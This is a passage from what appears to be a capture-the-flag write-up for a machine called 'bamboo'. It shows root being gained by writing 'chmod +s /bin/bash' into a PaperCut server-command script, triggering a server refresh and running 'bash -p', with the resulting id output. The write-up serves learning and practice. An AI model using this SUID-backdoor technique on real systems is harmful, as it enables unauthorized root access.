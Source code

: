 Good news, we just have to modify this and make a "refresh server".
I will just try to add a SUID to /bin/bash, so if it's executed, we just have to do `bash -p` to get root.

```bash
(remote) papercut@bamboo:/home/papercut$ echo "chmod +s /bin/bash" > /home/papercut/server/bin/linux-x64/server-command
```

Then after doing "refresh server", we can just `bash -p` to get root now.

```bash
(remote) papercut@bamboo:/home/papercut$ bash -p
(remote) root@bamboo:/home/papercut# id
uid=1001(papercut) gid=1001(papercut) euid=0(root) egid=0(root) groups=0(root),1001(papercut)
```

GG !
